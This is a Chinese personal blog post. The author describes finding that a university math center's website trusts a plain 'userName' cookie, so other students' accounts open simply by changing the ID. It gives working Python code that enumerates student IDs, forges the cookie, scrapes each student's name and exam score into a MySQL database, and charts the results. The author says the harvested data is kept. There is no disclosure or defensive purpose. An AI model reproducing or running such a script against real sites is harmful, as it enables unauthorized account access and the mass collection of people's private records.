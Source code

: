 ```yaml
---
layout: article
title: 期中成绩爬虫
mathjax: true
---
```


# 背景

今天进行了期中考试，考完之后看他们在查别人的成绩，一个一个的查真痛苦→_→，于是我就想，这不是正好这几天在尝试爬虫，那我就写个爬虫获取一下整个学院的人的成绩吧

<!--more-->

# 过程

本来还想着，这次可不是微博那种一个Cookie闯天下，得好好看看模拟登陆是怎么回事了，结果，之后我就惊呆了！

打开[数学中心的网站](http://centermath.hit.edu.cn/)，登陆，看看Cookie，内容如下:


|Name                |Content                 |
|--------------------|------------------------|
|CourseID            |0                       |
|ASPSESSIONIDQABRRRSB|JEELCIDDJDFNHKEGNDJKJMOE|
|CWUserLogined       |1                       |
|photo               |boy%2Egif               |
|trueName            |%D1%A6%D6%D9%BA%C0      |
|userKind            |student                 |
|userName            |115××××××6              |

欸？貌似只有个userName可以认定这到底是谁登陆的啊，trueName是名字的gb2312码，这个应该作用不大，毕竟有重名。

真正需要的成绩信息是点击**在线测试**后得到那个网页，按F12，看看源码，这网址也是固定的，就是在[数学中心网站](http://centermath.hit.edu.cn/)的后面加上“zxcs”，这名字起的，浓浓中国风啊(￣▽￣)"

我决定拿python获取一下这个在线测试的网页，获取的时候headers里直接加上cookie。就在此时，抱着试一试的心态，悄悄把cookie中的userName改成了115××××××7，获取网页，居然成功了！！！

我去，此刻我终于明白了为什么那么多人的爬虫都起步于学校的网站(⊙o⊙)，我就改一下数字就进入了别人的账号？？那密码根本就是搞笑的嘛，为因为忘记密码而影响考试的同学默哀。

既然网页都获取到了，剩下的步骤就很简单了，穷举学号，获取网页，正则提取成绩即可

# 代码

代码是用python写的，其实爬虫我只会python，真的是不要太方便。

我还顺便把这些存到数据库里了，方便以后查询ˇ∀ˇ

```python
import urllib.request
import mysql.connector
import re
import time

#Initialization
print('Initializing...', end='')
address = 'http://centermath.hit.edu.cn/zxcs/'
user_agent = 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:44.0) Gecko/20100101 Firefox/44.0'
cookie_head = 'CourseID=0; ASPSESSIONIDQABRRRSB=LGAKCIDDEBIJFFPDGLNNNHPI; CWUserLogined=1; photo=boy%2Egif; trueName=%C2%ED%C8%FC%BF%CB; userKind=student; userName='
pattern = re.compile(r'<div class="regards">.*?：(.*?)&.*?</div>.*?<a href="javascript:void\(0\)".*?>(.*?)</a>', re.S)
print('[Done]')

#Database|MySQL
print('Connecting to the database...', end='')
conn = mysql.connector.connect(user='root', database='samp_db')
cur = conn.cursor()
print('[Done]')

begin = int(input('Input the begin:'))
end   = int(input('Input  the  end:'))

for i in range(begin, end+1):
    print('Request for ID:%d...' % i, end='')
    cur.execute(("select * from students where id = %d" % i))
    ans = cur.fetchall()
    if(len(ans) > 0):
        print('[Exists](%s, %d)' % ans[0][1:])
    else:
        cookie = cookie_head + str(i)
        headers = {
            'User-Agent': user_agent,
            'Cookie': cookie,
            }
        request = urllib.request.Request(address, headers = headers)
        try:
            response = urllib.request.urlopen(request)
            time.sleep(1)
        except urllib.request.URLError as e:
            if hasattr(e, 'code'):
                print(e.code)
            if hasattr(e, 'reason'):
                print(e.reason)
        try:
            st = response.read().decode('gb2312')
        except:
            print('[Read Error]')
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, 'None', 0)))
            conn.commit()
            continue            
        st = re.findall(pattern, st)
        if(len(st) > 0):
            st = st[0]
            print('[Done](%s, %s)' % st)
            cur.execute(("insert into students(id, name, score) values (%d, '%s', %s)" % (i, st[0], st[1])))
            conn.commit()
        else:
            print('[Not Found]')

cur.close()
conn.close()

```

# 简单分析

现在的学霸真是越来越多了，受不了的好吧，考个18分只是勉强过得去，16分排名就三位数了！→_→

凡是有成绩的同学，最低分8分，有7个人没有成绩，可能是旷考或者考的时候出问题了。

<img src="{{ site.baseurl }}/assets/images/mid_score1.jpg" />

上面这个图是来用[Raw](http://raw.densitydesign.org/)制作出来的，看起来很高端，但貌似效果并不好。好吧，于是又做了一个简单粗暴，通俗易懂的柱状图&折线图。

<img src="{{ site.baseurl }}/assets/images/mid_score2.png" />

至此，爬取同学们的成绩就结束了。（但数据我保留下来了，hiahia~）